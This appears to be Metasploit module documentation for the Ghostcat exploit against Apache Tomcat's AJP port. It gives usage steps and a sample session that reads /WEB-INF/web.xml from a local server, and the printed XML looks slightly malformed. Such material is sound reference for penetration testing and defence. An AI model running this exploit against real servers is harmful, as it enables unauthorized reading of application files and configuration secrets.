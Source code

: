 ## Vulnerable Application

This module can be used to retrieve arbitrary files from anywhere in the web application, including the `WEB-INF` and `META-INF` 
directories and any other location that can be reached via ServletContext.getResourceAsStream() on Apache Tomcat servers. 
It also allows the attacker to process any file in the web application as JSP.


## Verification Steps

  1. Install the application and start it
  2. Start msfconsole
  3. Do: ```exploit/windows/http/tomcat_ghostcat```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set rport```
  6. Do: ```set FILENAME```
  7. Do: ```run```

## Options

## Scenarios

### Apache Tomcat on Windows 10.0.16299.125

  ```
  [*] Processing tomcat_ghostcat.rb for ERB directives.
  resource (tomcat_ghostcat.rb)> use exploit/windows/http/tomcat_ghostcat
  resource (tomcat_ghostcat.rb)> set rport 8009
  rport => 8009
  resource (tomcat_ghostcat.rb)> set rhosts 127.0.0.1
  rhosts => 127.0.0.1
  resource (tomcat_ghostcat.rb)> set verbose true
  verbose => true
  resource (tomcat_ghostcat.rb)> set FILENAME /WEB-INF/web.xml
  filename => /WEB-INF/web.xml
  
  resource (tomcat_ghostcat.rb)> run
  [*] Running module against 127.0.0.1
  <?xml version="1.0" encoding="UTF-8"?>
<!--
    Copyright 2017 The MIT Internet Trust Consortium
   
    Portions copyright 2011-2013 The MITRE Corporation
   
    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at
   
      http://www.apache.org/licenses/LICENSE-2.0
   
    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
-->  
 
  <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 

xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee 
http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd">

version = "4.0"
metadata-complete="true">

<display-name> Welcome to Tomcat </display-name>
<description>
 Welcome to Tomcat 
 </description>

 <web-app>
[*] Auxiliary module execution completed
  
  ```
